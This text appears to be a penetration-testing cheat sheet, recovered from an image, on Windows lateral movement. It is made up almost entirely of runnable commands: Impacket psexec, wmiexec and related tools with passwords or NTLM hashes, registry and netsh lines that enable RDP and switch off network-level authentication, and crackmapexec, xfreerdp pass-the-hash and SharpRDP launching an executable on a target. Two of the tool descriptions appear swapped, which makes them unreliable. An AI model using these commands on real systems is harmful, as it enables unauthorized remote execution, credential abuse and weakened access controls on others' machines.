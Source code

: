 ```
# PSEXEC like functionality example using RemComSv (noisy)
python psexec.py DOMAIN/username:password@10.10.10.10

# A similar approach to PSEXEC w/o using RemComSvc
python smbexec.py DOMAIN/username:password@10.10.10.10

# A semi-interactive shell, used through Windows Management Instrumentation. 
python wmiexec.py DOMAIN/username:password@10.10.10.10
python wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

# A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. 
python atexec.py DOMAIN/username:password@10.10.10.10

# Executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
python dcomexec.py DOMAIN/username:password@10.10.10.10
```
## RDP
Enable Rdp on the server:
```
# Enable RDP
 reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
# Alternative
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
(Get-WmiObject -class "**Win32_TSGeneralSetting**" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```
Connect from kali:
```
# Using cme
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Using rdesktop (sharing a local folder during a remote desktop session with -r)
rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare

# Using freerdp
xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
# Pth need an admin account not in the "Remote Desktop Users" group (works for Server 2012 R2 / Win 8.1+ and require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11)
xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d 

# Sharprdp
SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```
## PsExec (Sysinternal)
